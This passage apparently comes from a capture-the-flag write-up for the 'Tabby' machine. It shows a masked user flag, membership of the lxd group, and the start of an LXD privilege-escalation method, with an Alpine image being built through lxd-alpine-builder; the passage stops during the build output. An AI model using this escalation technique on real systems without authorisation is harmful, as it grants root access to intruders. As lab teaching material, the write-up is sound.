 ```shell
ash@tabby:~$ cat user.txt
84f94163521c3937****************

```

## Elevating Priv: ash -> root

### Enumeration

User ash is a member of `lxd` group, which is an awesome privilege escalation vector.

```shell
ash@tabby:~$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
```

### LXD Priv Esc

Basic scenario behind this attack is that the members of lxd group can create containers with elevated privileges and mount the root file system to it and later access it.

#### Image Creation

First we will create a small alpine image using [*LXD Alpine builder*](https://github.com/saghul/lxd-alpine-builder), clone the repo to our machine and run the build script:

```shell
coldfx@Shockwave:/opt$ sudo git clone https://github.com/saghul/lxd-alpine-builder                                                                                                             
Cloning into 'lxd-alpine-builder'...                                                                                                                                                           
remote: Enumerating objects: 27, done.                                                                                                                                                         
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 27                                                                                                                                 
Unpacking objects: 100% (27/27), 15.98 KiB | 380.00 KiB/s, done.                                                                                                                               
coldfx@Shockwave:/opt$ cd lxd-alpine-builder/                                                                                                                                                  
coldfx@Shockwave:/opt/lxd-alpine-builder$ sudo ./build-alpine                                                                                                                                  
Determining the latest release... v3.12                                                                                                                                                        
Using static apk from http://dl-cdn.alpinelinux.org/alpine//v3.12/main/x86_64                                                                                                                  
Downloading alpine-mirrors-3.5.10-r0.apk                                                                                                                                                       
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'                                                                                                                        
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'                                                                                                                        
Downloading alpine-keys-2.2-r0.apk                                                                                                                                                             
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'                                                                                                                        
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'                                                                                                                        
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'                                                                                                                        
[..SNIP..]
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1
Downloading apk-tools-static-2.10.5-r1.apk
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
tar: Ignoring unknown extended header keyword 'APK-TOOLS.checksum.SHA1'
```